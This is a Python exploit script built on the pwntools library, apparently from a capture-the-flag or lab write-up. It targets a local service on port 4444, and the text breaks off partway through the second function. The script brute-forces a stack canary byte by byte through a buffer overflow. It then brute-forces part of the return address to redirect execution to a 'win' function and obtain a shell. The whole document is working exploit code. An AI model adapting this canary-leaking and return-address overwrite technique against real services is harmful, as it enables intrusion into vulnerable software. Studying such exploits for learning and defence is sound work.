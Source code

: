 ### Full Exploit Code

```python
#!/usr/bin/python3
import pwn  # import pwntools
pwn.context.log_level = 'CRITICAL'
canary = b""


def leak_canary(canary):
    for i in range(8):  # loop 8 times for 8 bytes of a canary
        for j in range(256):  # loop 256 times for all possible values of a byte
            # create a connection to localhost:4444
            io = pwn.remote("127.0.0.1", 4444)
            # buf is at rbp-0x50 and canary is at rbp-0x8
            # so we write 72 bytes of garbage + 8 byte canary
            io.recv()
            payload1 = b"80"
            # send size
            io.sendline(payload1)
            io.recv()
            # send payload
            payload2 = b"A"*72
            payload2 += canary
            payload2 += pwn.p8(j)
            io.send(payload2)
            mssg = io.clean()
            # check if canary corrupted
            if b"stack" not in mssg:
                # Append byte found to canary
                canary += pwn.p8(j)
                print(f"[+] Canary - {hex(pwn.unpack(canary,'all'))}")
                io.close()
                break
            io.close()
    return canary


canary = pwn.u64(leak_canary(canary))
print("[!] Canary Leaked - ", hex(canary))
rbp = b"A"*8
canary = pwn.p64(canary)


def brute_win_func(rbp, canary):
    for i in range(16):
        print(f"Trying {i}")
        io = pwn.remote("127.0.0.1", 4444)
        io.recv()
        payload1 = b"90"
        # send size
        io.sendline(payload1)
        io.recv()
        # 00000000000013c9 <win>:
        ret_addr = pwn.p8(0xc9)  # the fixed byte
        # the byte whose nibble we have to bruteforce
        ret_addr += pwn.p8(i*16+0x3)
        payload2 = b"A"*72
        payload2 += canary
        payload2 += rbp
        payload2 += ret_addr
        io.send(payload2)
        # echo command to check if we have shell
```